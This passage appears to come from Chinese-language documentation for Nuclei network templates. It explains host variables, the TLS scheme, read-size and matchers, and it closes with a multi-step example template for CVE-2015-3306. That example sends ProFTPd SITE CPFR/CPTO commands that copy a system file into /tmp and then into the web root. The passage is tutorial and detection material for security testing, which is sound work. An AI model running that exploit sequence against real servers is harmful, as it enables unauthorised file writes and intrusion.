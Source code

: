 {{Host}}将赋值为“10.20.30.40”

{{Hostname}}将被赋值为“10.20.30.40:8080”

网络模板可以选择性地指定一个TCP端口，期望服务监听在这个端口上如上例所示，我们尝试连接到6101-6103端口。如果我们在模板中制定了端口，则需要使用{{host}}。如果在模板中不硬编码TCP端口号，则需要使用{{Hostname}}，并且用户需要在命令行或目标列表文件中提供端口作为目标主机规范的一部分。例如：
```yaml
nuclei -t jnexcomm-detect.yaml -u 10.12.34.56:6101
```

如果用户使用TLS传输安全，可以使用`tls://`方案进行执行，如下列所示：
```yaml
host:
  - "tls://{{Hostname}}"
```

#### read-size

read-size字段制定了从远程服务的响应中读取多少字节以供匹配器分析。在本例中，我们需要检查响应的前14个字节用于指纹识别服务。

#### matchers

matchers（匹配器）将对服务读取的字节进行匹配，其类型与HTTP请求模式中的类型相同。在本例中，我们使用了一个简单的字符串（单词）匹配器，与输入一样，它使用一个辅助函数，以便我们可以用十六进制标识期望的服务响应签名。

#### 多步交互

与HTTP模式一样，网络模式也可以对目标服务进行多步通信。一个多步网络模板的示例是CVE-2015-3306漏洞利用。

```yaml
id: CVE-2015-3306

info:
  name: ProFTPd RCE
  author: pd-team
  severity: high
  reference: https://github.com/t0kx/exploit-CVE-2015-3306
  tags: cve,cve2015,ftp,rce

network:
  - inputs:
      - data: "site cpfr /proc/self/cmdline\r\n"
        read: 1024
      - data: "site cpto /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpfr /tmp/.{{randstr}}\r\n"
        read: 1024
      - data: "site cpto /var/www/html/{{randstr}}\r\n"
    host:
      - "{{Hostname}}"
    read-size: 1024
    matchers:
      - type: word
        words:
          - "Copy successful" 

```
